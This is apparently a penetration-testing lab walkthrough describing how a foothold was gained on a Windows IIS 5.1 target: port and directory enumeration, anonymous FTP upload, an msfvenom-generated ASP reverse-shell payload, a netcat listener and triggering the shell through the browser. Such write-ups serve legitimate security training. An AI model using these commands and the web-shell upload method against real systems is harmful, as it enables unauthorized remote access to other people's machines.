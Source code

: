 Getting a Foothold

1. Enumerate the ports via NMAP scan. We ran a TCP Connect scan and saw that there is a Windows FTP service on port 21 and Windows web server at port 80.

2. Run NMAP scripts. Most interesting at this time is the FTP information and interesting directories at port 80

3. Run a non-recursive dirb scan. The /Scripts directory looks interesting

4. Login to FTP 21 as anonymous and verify the directories listed in the NMAP scan. We can put a .txt file into the default directory (the one we're dropped in after login), /Scripts, and /wwwroot and be able to view it from browser. 

5. Trial and error tells us that we cannot execute .exe files from the browser because it is access denied.

6. Google Search: `microsoft iis 5.1 language`
This shows us that it uses ASP language. Instead of the PHP shell we are used to, we can try an ASP shell
![e6c97fc04baf3cdbe3d4966add848eb5.png](../../../_resources/d1d50eb5e805455384d278c2c934d192.png)

7. Enumerate for webdav using NMAP and davtest.
**davtest results are not reliable.** On this target, it specified that it failed to send an .asp, but was successful in sending .aspx. But a manual test shows that when we generate ASP shellcode, upload via FTP, then browse to the location, the ASP code is executed.

8. Generate the shellcode with msfvenom
After trial and error, we find that we need non-staged ASP shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=445 -f asp > windows_shell_reverse_tcp_192.168.119.214_445.asp`
This shellcode is located on the attack machine (kali): `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/shellcodes/nonstaged/windows_shell_reverse_tcp_192.168.119.214_445.asp`
![e62b6f11cefe26052a5e4332bd96ea0e.png](../../../_resources/b5cd820188834df9976f7d00342815eb.png)

9. Upload the ASP shellcode file to the target via FTP. In this example, we renamed it to shell445.asp when using the PUT command **Remember to use BINARY mode before using PUT** 
![47cd87d7b2f331ea6288eb43e26a1a41.png](../../../_resources/429ec6b5a246488ea257389c1f47c414.png)

10. Open a netcat listener on the attack machine
`sudo nc -lvnp 445`

11. Now open a browser and access the shell
`http://10.11.1.14/Scripts/shell445.asp`
![9404cd821499e63e1256c66bbc8f9d08.png](../../../_resources/0eebc65fccd346cbaef527f5ca429cfb.png)

12. Check that the nc listener shows a shell
![b2e2485913a680021cc5ee2efa09d30d.png](../../../_resources/91d7c87ea0f446af87ece5e2a4f52380.png)

